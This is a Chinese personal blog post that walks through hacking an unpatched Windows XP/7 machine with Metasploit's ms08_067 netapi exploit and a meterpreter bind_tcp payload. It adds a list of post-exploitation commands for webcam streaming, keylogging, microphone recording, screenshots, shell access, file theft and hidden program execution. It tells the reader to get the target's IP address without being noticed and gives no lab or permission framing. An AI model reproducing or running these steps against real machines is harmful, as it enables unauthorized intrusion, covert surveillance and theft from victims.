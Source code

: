 ```yaml
---
layout: post
title: 用kali来黑掉windows
tags: windows linux
categories: Living dump
img: 'https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/cover.jpg'
---
```


Metasploit Framwork is not a good thing ...   
Oh,no! My computer!

---

### 前言
哈喽大家好。我又好久没更新博客了。  
这段时间里我给我的电脑装上了kali。  
（耀庄老弟你咋没事找事干呢）  
其实事情是这样的，前一段时间我的电脑移到~~其他地方~~办公室去了。  
然后我去插那边的网线，结果插上是插上了，电脑上也写着连接了，有因特访问。可是我进百度却进半天都没进去，竟然还连接超时，7456。  
我请人看了，说是我电脑的问题，叫我装双系统。Okay，这就是我最近在为kali做准备的原因。  
耀庄你这是要黑别人的电脑不成？  
不过话说现在已经没事了，我用上了WIFI网卡。我还在想着入侵入侵入侵。。  
~~反正就是一句话，没事找事干😜~~
  
### 准备材料
- Kali电脑一部
- 没装防火墙和360卫士或防火墙不稳定的电脑一部
  - 搭载WinXP或Win7
  - 可以是笔记本或台式机

### 01.开启Metasploit
Metasploit是一个安全渗透软件。Kali可以在终端*root*里输入:  
```bash
msfconsole
```
来打开它。
![](https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/01.png)

### 02. 搜索Xp漏洞
我们可以查看漏洞在这个*安全渗透环境*查看windows的漏洞都有啥的。输入:
```msf
search platform: windows
```
或者是
```msf
search netapi
```
来搜索。  
之后，你会看到有一个`ms08-netapi`的漏洞，利用等级是`great`。  
但确保你要攻击的电脑有这个ms08漏洞。如果没有，请试其他。  
![](https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/02.png)

### 03.使用ms08漏洞并设置
使用该内容，输入:
```msf
use exploit/windows/smb/ms08_067netapi
```
你会发现命令的提示符旁边多了`exploit(windows/smb/ms08_067-netapi)`，表示使用成功。
你可以通过`info *内容名`来详细查看这个内容。
![](https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/03.png)

### 04.设置载荷
载荷可以说是一个会话的类型设置。你可以看到命令的末尾有个`bind_tcp`。  
`bind tcp`可说是隐秘的会话。`reverse_tcp`是指通过软件发起的对话。我等会儿会讲软件传播。  
输入。
```msf
set payload windows/meterpreter/bind_tcp
```

### 05.设置要控制的主机
另外，攻击Xp主机要先提前知道Xp的IP地址。  
别被人发现，跑到Xp电脑进入cmd输入`ipconfig`查看ip地址。比如，我这里看到ip地址是`192.108.1.104`。    
回到你的kali前，输入:  
```msf
set RHOST 192.108.1.104
```
这里是设定控制主机的ip地址。RHOST可说是全写Remote Host。

### 06.开始攻击！
做完这些后，你就可以开始了！输入！
```msf
exploit
```
![](https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/04.png)
![](https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/05.png)

>该文章中的所有图片均为网上的图片。如果侵犯到了你的权利，可联系作者来进行删除。
<br /> <br /> <br />

***

<br />

<br /> <br /> <br />

***

<br />

### Meterpreter命令集
- 使用vnc查看桌面
```msf
run vnc
```
- 监视摄像头
```msf
webcam_stream
```
- 监视键盘按下内容  
```msf
keyscan_start
//开启键盘记录
keyscan_dump
//显示键盘输入内容
keyscan_stop
//停止键盘记录
```
- 录制声音
```msf
record -d xx
//录制音频xx秒
record_mic
//录制音频
```
- 截屏
```msf
screenshot
```
- 进入cmd
```msf
shell
```
- 从目标机器下载东西
```msf
download C:\\path\\to\\file
```
- 从kali上传内容到目标机器
```msf
upload ~/file C:\\path\\up\\
```
- 查看有几个摄像头
```msf
webcam_list
```
-运行程序
```msf
execute -f 文件名
//运行文件
execute -f -H 文件名
//隐秘的运行应用
execute -i -f -H 文件名
//隐秘的交互进行应用,当文件名为cmd时meterpreter命令行会变成cmd
```

